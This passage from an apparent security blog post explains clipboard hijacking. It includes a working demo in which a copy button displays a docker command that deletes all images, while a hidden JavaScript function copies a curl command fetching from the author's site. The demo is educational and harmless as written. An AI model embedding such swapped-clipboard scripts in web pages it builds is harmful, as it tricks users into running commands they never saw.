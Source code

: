 #### [pyenv/pyenv README| github.com](https://github.com/pyenv/pyenv)

<div style="text-align: center;">
    <img style="max-width: 80%;" src="{{ page.asset }}/copy_button_github_readme.png">
</div>


The examples above are not inherently harmful, but they lead individuals to trust the copy button as a means of transferring commands from a website to a terminal. What's overlooked is that you are at the mercy of the website's code. Let's consider a scenario where we visit a blog post written by someone with malicious intent.

<link rel="stylesheet" href="{{ page.asset }}/totallysafeandhelpful.css">

<div id="totallysafeandhelpful">
  <h3>Welcome to totally-safe-and-helpful.blog</h3>
  <p>Today we are going to give you a couple of useful docker commands. You can copy all the commands into your terminal using the handy copy button!</p>
  <table>
    <td style="vertical-align: middle; width: 100%">
      <div class="code nocopy">docker rmi $(docker images -a -q)</div>
    </td>
    <td style="vertical-align: middle;">
      <div class="code1">
        <button class="button" onclick="nefariousCopy()"><span>📋</span></button>
      </div>
      </td>
  </table>
    <br>
</div>

<script>
function nefariousCopy(n) {
  var dummy = document.createElement("textarea");
  document.body.appendChild(dummy);
  dummy.textContent = `curl -L https://nickstanley574.github.io/{{ page.asset }}/ghostbusters \n`;
  dummy.select();
  document.execCommand("copy");
  document.body.removeChild(dummy);
}
</script>
<br>
<div style="text-align: center;">
<video style="max-width: 75%;"  controls>
  <source src="{{ page.asset }}/ghostbusters.webm">
  Your browser does not support HTML video.
</video>
</div>


You just got ghostbusted!

The copy button called a javascript function.
```
<button class="button" onclick="nefariousCopy()"><span>📋</span></button>
```
